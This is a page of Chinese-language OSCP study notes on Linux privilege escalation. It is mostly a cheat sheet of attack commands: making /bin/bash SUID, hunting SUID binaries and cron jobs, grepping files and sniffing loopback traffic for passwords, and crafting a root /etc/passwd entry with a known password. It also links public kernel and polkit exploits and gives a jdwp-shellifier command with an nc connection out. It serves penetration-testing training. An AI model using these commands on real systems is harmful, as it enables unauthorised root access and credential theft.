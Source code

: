+++
title = 'Linux 提权'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'OSCP笔记'
+++


添加路由：
sudo route add -net 192.168.245.1 netmask 255.255.255.0 gw 192.168.45.254
sudo route add -net <目标网络> netmask <掩码> gw <网关地址>

有gcc先考虑内核提权，存在少量情况是没有GCC，交叉编译；


```
chmod u+s /bin/bash
/bin/bash -p 
```

# 提权手动，千万注意细节，文件、计划任务特殊、进程

1、SUID：

```
find / -perm -u=s -type f 2>/dev/null
类似效果
/usr/sbin/getcap -r / 2>/dev/null
```

2、交互式shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

3、/etc/crontab ！！！ 手动检查


ls -lah /etc/cron*

重点看**小时**和**cron.d**


4、sudo -l

5、数据库账密信息

6、家目录文件

7、文件可写：

```
/etc/passwd
/etc/shadow
/etc/sudoers
```

8、内核信息：

```
uname -a    ##打印所有可用的系统信息
uname -r    ##内核版本
uname -n    ##系统主机名。
uname -m    ##查看系统内核架构（64位/32位）
hostname    ##系统主机名
cat /proc/version    ##内核信息
cat /etc/*-release   ##分发信息
cat /etc/issue       ##分发信息
cat /proc/cpuinfo    ##CPU信息
cat /etc/lsb-release   ##Debian 
cat /etc/redhat-release  ##Redhat
ls /boot | grep vmlinuz-


常用方法：
1、确认内核版本：
cat /etc/issue 发行版
uname -r 内核
arch 架构

2、筛选：
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"

```

9、.bashrc

```
env
cat .bashrc

```

10、进程监控

```
watch -n 1 "ps -aux | grep pass"

sudo tcpdump -i lo -A | grep "pass"
```

11、系统日志查计划任务

```
grep "CRON" /var/log/syslog
```

**12、备份文件**

特别是一些目录下的：var、opt、tmp 

13、端口，不对外开放的那种

目前可能存在web高权限、java调试应用等

14、当前权限用户家目录
## 常用技巧

查找doas相关的文件：
```
find / -name *local.txt* -type f 2>/dev/null
```

查找内容中带有pass的文件：

```
grep -R -i pass /home/* 2>/dev/null
```

查找某个用户的文件：

```
find / -type f -user delx 2>/dev/null
```

查看程序内容：
```
strings xxx
```

生成passwd密码：
```
openssl passwd -1

$1$8PxO.i7T$aDaohw/CLzjdaIOK8BrDy1

root:$1$ZytY2Uoj$1.aU20M/0/xD4Wo1ymW9Z0:0:0:root:/root:/bin/bash  #Abcd1234
```

辅助脚本


```
https://pentestmonkey.net/tools/audit/unix-privesc-check

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
```

# 2021-4034

带有polkit可尝试

```
https://github.com/dzonerzy/poc-cve-2021-4034/releases/tag/v0.2
```


# DirtyPipe

```
https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c
```



![](/oscp_img/Pasted%20image%2020240327161524.png)


# jdwp-shellifier java 提权

```
proxychains4 python jdwp-shellifier.py -t 127.0.0.1 -p 8000 --break-on 'java.lang.String.indexOf' -c 'chmod u+s /bin/bash

nc 192.168.224.150 5000
```